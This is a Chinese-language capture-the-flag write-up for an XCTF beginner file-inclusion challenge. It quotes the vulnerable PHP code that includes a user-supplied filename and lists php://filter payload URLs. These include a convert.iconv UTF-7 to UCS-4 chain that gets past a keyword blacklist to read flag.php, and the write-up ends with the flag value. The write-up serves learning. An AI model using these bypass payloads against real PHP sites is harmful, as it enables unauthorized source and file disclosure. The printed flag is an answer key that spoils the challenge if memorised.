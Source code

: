 # 题目名称-文件包含

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=5577c1bc-1619-11ed-9802-fa163e4fa66d)

新手区怎么了？不妨碍我做不出来。

网页内容就是没有废话的文件包含。

```php
<?php
highlight_file(__FILE__);
    include("./check.php");
    if(isset($_GET['filename'])){
        $filename  = $_GET['filename'];
        include($filename);
    }
?>
```

有个check.php进行过滤，但是不知道脚本内容，直接冲常用伪协议试试。

- http://61.147.171.105:63483/?filename=php://filter/read=convert.base64-encode/resource=flag.php
  > do not hack!

提示do not hack，看来被过滤了。试出来过滤黑名单是read。然后我就不懂了，我以为伪协议读取文件时必须带read，否则无法读取。结果网上查的时候有篇[文章](https://mayi077.gitee.io/2020/08/09/phpfilter%E4%BC%AA%E5%8D%8F%E8%AE%AE%E8%AF%BB%E5%8F%96%E6%BA%90%E7%A0%81/)里提到“没有以read= 或 write= 作为前缀的筛选器会视情况应用于写或读”。原来这么智能啊，把read删掉试试。

- http://61.147.171.105:63483/?filename=php://filter//convert.base64-encode/resource=flag.php
  > do not hack!

还有别的东西被过滤了。测出来黑名单词是base，quoted等。彻底不会了，不过上面那篇文章往下看会发现一个叫convert.iconv.*的过滤器。试试吧，结果试了几个编码方式都没用。

- http://61.147.171.105:63483/?filename=php://filter//convert.iconv.UCS-4*/resource=flag.php

仔细看了看，发现我看错格式了……

- convert.iconv.<input-encoding>.<output-encoding>

要两个编码。组合就完事了，最后发现这个可以。

- http://61.147.171.105:63483/?filename=php://filter//convert.iconv.UTF-7.UCS-4*/resource=flag.php

- ### Flag
  > cyberpeace{6ad0f0e2581c8e8f8932e75d00c257cf}
